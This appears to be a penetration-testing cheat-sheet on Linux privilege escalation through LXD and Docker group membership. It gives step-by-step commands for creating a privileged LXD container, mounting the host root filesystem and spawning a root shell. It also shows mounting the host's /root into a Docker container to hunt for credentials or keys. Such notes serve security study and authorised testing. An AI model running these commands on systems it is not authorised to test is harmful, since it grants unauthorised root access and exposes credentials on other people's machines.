 
## Privileged Groups & Containers

`id -a` for group memberships, or check `/etc/group`

### LXD / LXC

LXC = Linux Containers = Application container.

LXD = Linux Daemon = System-level container.

LXD is Ubuntu's container manager. When it is installed, all users are added to the LXD group. Being a member of this group can allow us to escalate privileges by:
- Creating an LXD container
- Making it privileged
- Accessing the host filesystem from within the /mnt/root directory in the container.

Unzip Alpine image, initialise LXD and import image

```
hacked@target:~$ unzip alpine.zip       # Unzips to .tar.gz
hacked@target:~$ lxc image import alpine.tar.gz alpine.tar.gz alpine.tar.gz.root --alias alpine
hacked@target:~$ lxc image list
```

Start privileged container with security.privileged set to TRUE without a UID mapping to make the host / guest root the same user

```
hacked@target:~$ lxc init alpine <CONTAINER_NAME> -c security.privileged=true
```

Mount host file system

```
// <CONTAINER_NAME> and <MOUNT_NAME> can be arbitrary

hacked@target:~$ lxc config device add <CONTAINER_NAME> <MOUNT_NAME> disk source=/ path=/mnt/root recursive=true
```

Spawn a shell in the container to browse host file system as root

```
hacked@target:~$ lxc start <CONTAINER_NAME>
hacked@target:~$ lxc exec <CONTAINER_NAME> /bin/bash
```

### Docker

1. Shared folders (volume mounts) allow us to browse through the host file system - maybe we can find some creds or keys that let us access the host directly?
    - Can read existing shares OR mount our own share:
    - E.g. Mounting root drive:

      Create new Docker instance in `/root` directory of host machine:

      ```
      hacked@target:~$ docker run -v /root:/mnt -it ubuntu
      ```

